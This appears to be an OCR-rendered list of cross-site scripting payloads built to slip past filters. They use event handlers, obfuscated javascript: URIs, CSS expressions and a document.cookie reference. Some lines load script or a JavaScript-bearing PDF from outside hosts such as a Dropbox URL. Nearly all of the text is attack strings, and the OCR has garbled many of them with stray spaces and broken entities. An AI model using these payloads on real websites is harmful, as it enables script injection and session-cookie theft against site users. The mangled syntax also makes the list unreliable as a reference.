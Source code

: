 <div / style = "width: expression (confirm (1))"> X </div> {IE7}

<iframe /% 00 / src = javaSCRIPT & colon; alert (1)

// <form / action = javascript & # x3A; alert & lpar; document & period; cookie & rpar;> <input / type = 'submit'> //

/ * iframe / src * / <iframe / src = "<iframe / src = @" / onload = prompt (1) / * iframe / src * />

// | \\ <script // | \\ src = 'https: //dl.dropbox.com/u/13018058/js.js'> // | \\ </ script // | \\

</font> / <svg> <style> {src & # x3A; '<style / onload = this.onload = confirm (1)>' </font> / </style>

<a/href="javascript:
 javascript:prompt(1)"> <input type = "X">

</ plaintext \> </ | \> <plaintext / onmouseover = prompt (1)

</svg> '' <svg> <script 'AQuickBrownFoxJumpsOverTheLazyDog'> alert & # x28; 1 ​​& # x29; {Ópera}

<a href="javascript:\u0061le%72t(1)"> <button>

<div onmouseover = 'alert & lpar; 1 & rpar;'> DIV </div>

<iframe style = "xg-p: absolute; top: 0; left: 0; width: 100%; height: 100%" onmouseover = "prompt (1)">

<a href="jAvAsCrIpT:alert(1)"> X </a>

<embed src = "http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">

<object data = "http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">

<var onmouseover = "prompt (1)"> Ao passar o mouse </var>

<a href=javascript:alert(document.cookie)> Clique aqui </a>

<img src = "/" = _ = "title =" onerror = 'prompt (1)' ">

<% <! - '%> <script> alert (1); </ script ->

<script src = "data: text / javascript, alert (1)"> </script>
<iframe / src \ / \ / onload = prompt (1)

<iframe / onreadystatechange = alert (1)

<svg / onload = alert (1)

<input value = <> <iframe / src = javascript: confirm (1)

<input type = "text" value = `` <div / onmouseover = 'alert (1)'> X </div>

http: // www. <script> alert (1) </ script .com
